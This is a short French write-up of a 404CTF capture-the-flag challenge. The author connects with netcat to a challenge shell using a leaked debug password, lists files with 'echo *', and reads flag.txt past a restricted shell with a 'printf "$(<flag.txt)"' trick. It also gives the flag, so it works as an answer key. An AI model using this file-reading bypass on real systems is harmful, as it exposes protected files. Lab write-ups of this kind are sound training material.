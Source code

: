 # Un utilisatier Suscpicieux [2/2]

On continue de parler avec le précédent bot (Cf [un utilisateur suspicieux [1/2]](/Divers/Un%20Utilisateur%20Suspicieux%20%5B1%3A2%5D/README.md) )
:
la commande `!aide` nous offre, après authentification, une nouvelle commande : `!debug` :

```text
Debug déployé sur le port 31337 ! Mot de passe : p45_uN_4uT0m4t3
```

je me connecte avec `netcat` sur le serveur :

```shell
nc challenge.404ctf.fr 31337
```

- je liste toutes les commandes que je peux executer.

```shell
compgen -c
```

- je remarque que `echo` et `printf` sont accessibles.

je liste tous les fichiers présents dans le dossier dans lequel je me situe grâce à `echo`:

```shell
$ echo * 
auth_wall.sh flag.txt
```

- `auth_wall.sh` est probablement le script qui demande la mot de passe dès qu'on se connecte au serveur.
- `flag.txt` est probablement le fichier qui contient le flag.

j'utilise de manière détournée la commande `printf` pour afficher le contenu du fichier `flag.txt`

```shell
bash-4.4$ printf "%s" "$(<flag.txt)"
printf "%s" "$(<flag.txt)"
404CTF{17_s_4g155417_3n_f4iT_d_1_b0t}bash-4.4$ 
```

donc le flag est :
>404CTF{17_s_4g155417_3n_f4iT_d_1_b0t}
